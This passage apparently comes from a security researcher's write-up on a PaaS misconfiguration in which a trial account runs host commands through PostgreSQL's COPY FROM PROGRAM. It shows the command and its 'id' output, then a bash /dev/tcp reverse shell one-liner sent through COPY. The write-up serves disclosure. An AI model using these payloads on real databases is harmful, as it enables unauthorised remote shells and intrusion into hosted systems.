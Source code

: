 !!! example ""
    ```sql
    postgres=# COPY CONSOLE FROM PROGRAM 'id';
    ```
    > COPY 1

!!! example ""
    ```sql
    postgres=# SELECT * FROM CONSOLE;
    ```
    > uid=26(postgres) gid=26postgres) groups=26(postgres)

!!! info ""
    ![](../images/paas-isolation/command-exec.png)

This confirmed that not only could the user list directories on the host system, but they also had the ability to execute arbitrary system-level commands via PostgreSQL. The combination of trial account access, lack of verification, and unrestricted use of administrative SQL functions represents a serious privilege escalation vector and highlights a misconfiguration in the database isolation model.

### Reverse Shell

With confirmed command execution on the remote host via PostgreSQL's COPY TO PROGRAM, the logical next step was to attempt a reverse shell to gain interactive access.

!!! example ""
    ```sql
    copy poc from program 'bash -i >& /dev/tcp/MY_IP/MY_PORT 0>&1';
    ```

!!! danger ""
    ![](../images/paas-isolation/rev-shell0.png)

!!! danger ""
    ![](../images/paas-isolation/rev-shell.png)
